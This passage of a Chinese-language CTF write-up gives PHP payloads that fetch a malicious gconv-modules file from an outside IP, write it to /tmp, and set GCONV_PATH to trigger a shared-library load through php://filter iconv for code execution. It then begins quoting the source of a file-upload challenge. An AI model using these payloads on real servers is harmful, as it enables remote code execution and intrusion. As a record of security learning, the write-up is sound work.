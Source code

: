 ```php
a=$url = "http://xx.xx.171.248:39543/gconv-modules";$file1 = new SplFileObject($url,'r');$a="";while(!$file1->eof()){$a=$a.$file1->fgets();}$file2 = new SplFileObject('/tmp/gconv-modules','w');$file2->fwrite($a);

```

利用伪协议触发

```php
a=putenv("GCONV_PATH=/tmp/");show_source("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/payload.so");
```

进行读取

```php
a=show_source("/tmp/sna");
```

![image-20220326222152682](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203262221783.png)

拿到flag。

##  upload it 1

下载附件，`composer.json`中有两个组件，下载

![image-20220328121652154](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203281216409.png)



看附件给出的源码

```php
<?php
include_once "../vendor/autoload.php";

error_reporting(0);
session_start();

define("UPLOAD_PATH", "/tmp/sandbox");
if (!file_exists(UPLOAD_PATH)) {
    @mkdir(UPLOAD_PATH);
}

function make_user_upload_dir() {
    $md5_dir = md5($_SERVER['REMOTE_ADDR'] . session_id());
    $upload_path = UPLOAD_PATH . "/" . $md5_dir;
    @mkdir($upload_path);
    $_SESSION["upload_path"] = $upload_path;
}

if (empty($_SESSION["upload_path"])) {
    make_user_upload_dir();
}

if (!empty($_FILES['file'])) {
    $file = $_FILES['file'];
    if ($file['size'] < 1024 * 1024) {
        if (!empty($_POST['path'])) {
            $upload_file_path = $_SESSION["upload_path"]."/".$_POST['path'];
            $upload_file = $upload_file_path."/".$file['name'];
        } else {
            $upload_file_path = $_SESSION["upload_path"];
            $upload_file = $_SESSION["upload_path"]."/".$file['name'];
        }

```
